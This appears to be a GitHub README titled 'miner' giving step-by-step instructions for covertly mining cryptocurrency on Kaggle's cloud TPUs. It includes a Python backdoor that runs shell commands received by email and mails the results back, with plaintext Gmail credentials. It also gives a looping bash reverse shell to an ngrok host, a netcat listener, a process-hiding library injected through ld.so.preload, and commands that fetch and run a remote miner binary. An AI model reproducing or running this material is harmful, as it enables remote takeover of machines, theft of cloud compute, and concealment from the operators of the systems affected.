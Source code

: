 # miner
TPU 96 Core https://www.kaggle.com/
register with gmail
verify phone number format : 081245754875
run code:
====================================>

import imaplib
import email
import smtplib
import subprocess
import time

# email account details
imap_username_from_client = "brunobrail335@gmail.com"
imap_password = "dimgwmkmtwsiaaiw"
smtp_username = "duejohn825@gmail.com"
smtp_password = "vekktzscbyhfvadv"
imap_server="imap.gmail.com"

while True:
    try:

        imap = imaplib.IMAP4_SSL(imap_server)
        imap.login(imap_username_from_client, imap_password)
        imap.select("inbox")
        status, messages = imap.search(None, "UNSEEN")
        if messages[0]:
            latest_message = messages[0].split()[-1]
            _, msg = imap.fetch(latest_message, "(RFC822)")
            email_message = email.message_from_bytes(msg[0][1])
            for part in email_message.walk():
                if part.get_content_type() == "text/plain":
                    body = part.get_payload(decode=True).decode()
                    result_byte = (
                        subprocess.run(body, shell=True, stdout=subprocess.PIPE,
                                       stderr=subprocess.PIPE).stdout).decode(
                        'utf-8')
                    break
            msg = email.message.EmailMessage()
            msg.set_content(result_byte)
            msg['Subject'] = 'Result of command'
            msg['From'] = imap_username_from_client
            msg['To'] = smtp_username

            # send email with result
            with smtplib.SMTP('smtp.gmail.com', 587) as smtp:
                smtp.starttls()
                smtp.login(smtp_username, smtp_password)
                smtp.send_message(msg)
        imap.close()
        imap.logout()
    except Exception as e:
        print(f"Error: {e}")

    # wait for 10 seconds before checking for new messages again
    time.sleep(2)
================================>
acces clinet  ==============> wget https://raw.githubusercontent.com/bulboni/minware/main/svr.py
create reverse shell ========> while true; do bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/10187 0>&1'; sleep 10; done
call net cat ================> nc -lnvp 4444
undo dyrectory kagle ==============> cd /kaggle
hide miner ========================> git clone https://github.com/cihuuy/libn && cd libn && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
call miner =========================> wget https://raw.githubusercontent.com/bulboni/minware/main/config.json && wget https://raw.githubusercontent.com/bulboni/minware/main/durex && chmod +x durex && ./durex
